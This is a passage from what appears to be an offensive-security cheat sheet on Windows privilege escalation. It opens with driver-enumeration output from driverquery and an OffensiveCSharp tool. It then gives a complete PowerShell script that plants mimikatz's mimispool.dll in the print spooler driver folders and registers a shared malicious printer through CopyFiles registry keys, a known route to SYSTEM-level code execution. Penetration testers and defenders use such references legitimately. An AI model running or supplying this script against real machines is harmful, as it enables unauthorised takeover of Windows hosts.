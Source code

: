     ```powershell
    PS C:\Users\Swissky> driverquery.exe /fo table /si
    Module Name  Display Name           Driver Type   Link Date
    ============ ====================== ============= ======================
    1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
    3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
    ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
    AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
    acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
    acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
    AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
    acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
    ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
    <SNIP>
    ```
*   [matterpreter/OffensiveCSharp/DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)

    ```powershell
    PS C:\Users\Swissky> DriverQuery.exe --no-msft
    [+] Enumerating driver services...
    [+] Checking file signatures...
    Citrix USB Filter Driver
        Service Name: ctxusbm
        Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
        Version: 14.11.0.138
        Creation Time (UTC): 17/05/2018 01:20:50
        Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
        Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
    <SNIP>
    ```

### EoP - Printers

#### Universal Printer

Create a Printer

```ps1
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
```